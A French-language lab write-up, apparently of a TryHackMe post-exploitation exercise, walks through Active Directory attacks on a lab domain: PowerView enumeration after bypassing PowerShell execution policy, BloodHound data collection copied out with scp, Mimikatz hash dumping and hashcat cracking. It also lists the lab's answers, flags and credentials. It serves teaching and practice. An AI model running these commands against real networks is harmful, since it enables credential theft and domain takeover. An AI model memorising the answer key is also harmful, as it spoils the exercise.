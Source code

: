 ## Post-Exploitation

Utiliser SSH pour se connecter avec la machine Windows Server 1.1 avec les crédentials :
* Utilisateur : Administrator
* Mot de passe : P@$$W0rd
* Nom de domaine : CONTROLLER

```
$ ssh Administrator@10.10.114.119
```

#### Powerview :

Une fois sur la machine, lancer le PowerShell avec l'option -ep bypass :
```console
PS C:\Users\Administrator> powershell -ep bypass
```

PowerView est un outil de reconnaissance que qu'il faut utiliser avec beaucoup de précautions. Il écrit en powerShell. Le script PowerView.ps1 contient un certain nombre de fonctions que l'on peut utiliser pour énumérer le domaine.
Le lancer :
```console
PS C:\Users\Administrator>. .\Downloads\PowerView.ps1
```

Code source : https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1

Afin de visualiser toutes les fonctions fournies par le script voici une astuce :
```console
PS C:\Users\kreese\Documents> $currentFunctions = Get-ChildItem function:
PS C:\Users\kreese\Documents> . .\PowerView.ps1
PS C:\Users\kreese\Documents> $scriptFunctions = Get-ChildItem function: | Where-Object { $currentFunctions -notcontains $_ }
PS C:\Users\kreese\Documents> $scriptFunctions | Format-Wide -Column 4
```

Informations générales au sujet du domaine :
```console
Réponse : Get-NetDomainController
```

Enumérer les Common Name des utilisateurs du domaine :
```console
Réponse : Get-NetUser | select cn
```

Enumérer les groupes de type admin :
```console
Réponse : Get-NetGroup -GroupName *admin*
```

Quel est le dossier partagé qui n'est pas configuré en tant que tel par défaut ? Utiliser la commande Invoke-ShareFinder.
```console
Réponse : Share
```

Quel système d'exploitation s'exécute à l'intérieur du réseau en plus de Windows Server 2019 ?
```console
Réponse : Get-NetComputer -fulldata | select operatingsystem
```

```console
Réponse : Windows 10 Enterprise Evaluation
```

Un flag est caché parmi les utilisateurs. Trouvez le.
```console
Réponse : POST{P0W3RV13W_FTW}
```

---

#### Bloodhound :

<p align="center">
  <img src="https://i.imgur.com/BAT2ZAH.png" />
</p>

BloodHound est un outil permettant de cartographier un environnement Active Directory en le représentant sous forme de graphe.

##### Sur la machine Kali Linux :

Installer Neo4j :
```console
$ sudo apt-get update
$ sudo apt-get install neo4j
```
Vérifier la version :
```console
$ neo4j --version
```

Neo4j est un système de gestion de base de données au code source libre basée sur les graphes. Il est utilisé par Bloodhound.<br/>
Lancer Neo4j et vérifier que le service est accessible via le browser :
```console
$ sudo neo4j console
```

<p align="center">
  <img src="https://pencer.io/assets/images/2020-06-09-14-53-59.png" />
</p>

Installer Bloodhound :
```console
$ sudo apt-get install bloodhound
```

##### Une fois sur la machine Windows :

Lancer le PowerView avec l'option -ep bypass :
```console
PS C:\Users\Administrator> powershell -ep bypass
```

SharpHound est le collecteur de données officiel de BloodHound. Il est écrit en C# et utilise des fonctions API Windows natives et des fonctions d'espace de noms LDAP pour collecter des données à partir de contrôleurs de domaine.<br/>
Le lancer :
```console
. .\Downloads\SharpHound.ps1
```

```console
Réponse : Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName all-data.zip
```
<p>
  <img src="img/Screenshot_2021-09-20-TryHackMe-Post-Exploitation-Basics.png" />
</p>

Transférer l'archive générée vers votre machine linux d'attaque. Utiliser scp.

Exemple :
```
$ scp Administrator@10.10.114.119:/C:/Users/Administrator/20210927121411_all-data.zip ~
```

Une fois sur la machine Kali Linux charger le fichier zip avec Bloodhound pour avoir la cartographie du domaine de la machine cible.<br/>
Utiliser les crédentials neo4j/neo4j pour se connecter.

<p align="center">
  <img src="https://i.imgur.com/thfZUOy.png" />
</p>

Quel service est-il également un domain admin ?
```console
Réponse : sqlservice
```

Quels sont les deux utilsateurs Kerberos ?
```console
Réponse : sqlservice, krbtgt
```

---

#### Mimikatz :

Mimikatz est un outil de post-exploitation qui permet de faire des dumps des mots de passe de la mémoire, mais aussi des hash, des codes PIN et des tickets pour le protocole d'identification réseau Kerberos.

Lancer Mimikatz :
```console
PS C:\Users\Administrator> cd .\Downloads\
PS C:\Users\Administrator\Downloads> .\mimikatz.exe
```

Vérifier que la sortie est "Privilege '20' ok" : Cela garantit que vous exécutez mimikatz en tant qu'administrateur.
```console
mimikatz # privilege::debug
```

Dumper les hashes :
```console
mimikatz # lsadump::lsa /patch
```

<p align="center">
  <img src="img/Screenshot_2021-09-20-TryHackMe-Post-Exploitation-Basics_01.png"/>
</p>

Maintenant que nous avons les hachages, nous pouvons essayer de les casser. Commençons par le faire en utilisant hashcat et rockyou.txt :

```console
$ locate rockyou.txt
```

Récuperer les hachages dans un fichier hashes.txt et faites tourner hashcat pour trouver les équivalents :
```console
$ cat hashes.txt
$ hashcat -m 1000 --force hashes.txt /usr/share/wordlists/rockyou.txt
```

En cas d'erreur :

Il faut installer les librairies nécessaires au fonctionnement de hashcat supérieur à la version 3.3.x :
```console
$ apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev
$ apt-get install pocl-opencl-icd
```

Quel est le mot de passe de la Machine1 ?
```console
Réponse : Password1
```

Quel est le hash du mot de passe de la Machine2 ?
```console
Réponse : c39f2beb3d2ec06a62cb887fb391dee0
```

---

#### Server Manager :

Se connecter à la machine Windows en Remote Desktop Protocol avec les crédentials :
* Utilisateur : Administrator
* Mot de passe : P@$$W0rd
* Nom de domaine : controller.local

```console
$ rdesktop -u SG ADRESSE_IP
```

<p align="center">
  <img src="https://cdn.dlcompare.com/game_tetiere/upload/gameimage/file/43698.png" />
</p>

Quel outil permet des tracer les evénements ?
```console
event viewer
```

Quel est le mot de passe du service SQL ? Regarder la description.
```console
MYpassword123#
```
